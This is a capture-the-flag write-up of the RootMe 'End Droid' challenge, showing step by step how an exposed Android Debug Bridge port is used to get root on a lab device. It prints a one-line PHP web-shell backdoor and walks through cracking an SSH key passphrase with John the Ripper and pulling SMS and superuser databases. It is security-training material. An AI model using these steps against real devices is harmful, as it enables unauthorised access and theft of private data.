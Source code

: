 ```yaml
---
title: RootMe - End Droid Writeup
date: 2023-10-08
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Android]
author: barabulkit
---
```


# RootMe - End Droid

This challenge is kinda dissappointing for me (honestly i didn't validate it)\
But i will consider like i did, cause i guess i found anything possible, and even the flag, i'm just not able to validate it

This is challenge about android and all we have is the server address, so i started with 

```shell
nmap -PN -sT -sV -p0-65535 ctf04.root-me.org
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 19:17 +03
Nmap scan report for ctf04.root-me.org (212.129.28.21)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp open  http    PHP cli server 5.5 or later
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)

Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

We can see that there is ADB service at 5555 port\
lets install adb client to kali and connect to this service
```shell
sudo apt install android-tools-adb android-tools-fastboot
```

And then connect to device
```shell
adb connect ctf04.root-me.org:5555
```

now we can start searching for flag on the server
```shell
ls /mnt/shell/emulated/0
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Podcasts
Ringtones
htdocs
kickwebinfo
obb
passwd
ssh
storage
www
```

I have found what i was looking for there (passwd file), but wasn't able to read it
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

i wasn't knowing why i can't read it yet, so i just continued my investigation\
And found php backdoor
```
adb shell cat /mnt/shell/emulated/0/www/public/announce/backdoor.php
<?php system($_POST['secret']);?>
```

Unfortunately this is not very usefull cause this is the same thing as `adb shell`\
But then i found private ssh key
```shell
adb shell ls /mnt/shell/emulated/0/www/public/secret22000
touhid.key
```

So i pulled it and tried to connect to ssh with it
```shell
adb pull touhid.key
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
```

But got prompted that i need a passphase for this key\
So i cracked this with johntheripper

```shell
ssh2john touhid.key > touhid.hash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john --wordlist=darkweb2017-top10.txt touhid.hash
john --show touhid.hash

touhid.key:qwerty

1 password hash cracked, 0 left
```

But it didn't give me anything, i was not able to connect even with passphrase
```shell
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
touhid@ctf04.root-me.org: Permission denied (publickey).
```

Then i went to google to read more about adb and android filesystem\
And i found that i can try to get root with just
```shell
adb root
```

and it worked, but i still couldn't read passwd file
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

And that was because i read it from wrong location, there is actual storage at `/data/media/0` that is the same as `/mnt/shell/emulated/0`
And i was able to read passwd from it
```shell
adb shell cat /data/media/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

I can even change access rights to this file through `/data/media/0`
```shell
adb shell chmod 777 /data/media/0/passwd
```

And now i can read it even from `/mnt/shell/emulated/0`
```shell
adb shell cat /mnt/shell/emulated/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

And looks like thats it, i have solved the challenge, but i only was able to validate it on virtual env page for this challenge
![validated](/assets/img/rootme/realistic/enddroid/realistic-enddroid.png)

But i wasn't able to validate a challenge with this flag at the challenge page so it still not finished
I even tried to do a bit more, i found flag.txt
```shell
adb shell cat /data/root/flag.txt 
No flag here but you can check your sms :) !
```

But it is not a flag, but there is a hint to check sms.
So i downloaded sms database with
```shell
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
```

But it was empty, i then downloaded calendar database, downloads database, gmail database, and in all this dbs there was nothing\
I also found another way to obtain flag i already have through superuser database
```shell
adb pull  /data/data/com.thirdparty.superuser/databases/

/data/data/com.thirdparty.superuser/databases/: 4 files pulled, 0 skipped. 0.0 MB/s (119912 bytes in 3.169s)
```

![superuserdb](/assets/img/rootme/realistic/enddroid/enddroiddb.png)

So that is all i was able to find in this challenge and still was not able to validate it, but at least i learned a bit about android\
\
UPD. finally got the flag
![flag](/assets/img/rootme/realistic/enddroid/enddroidflag.png)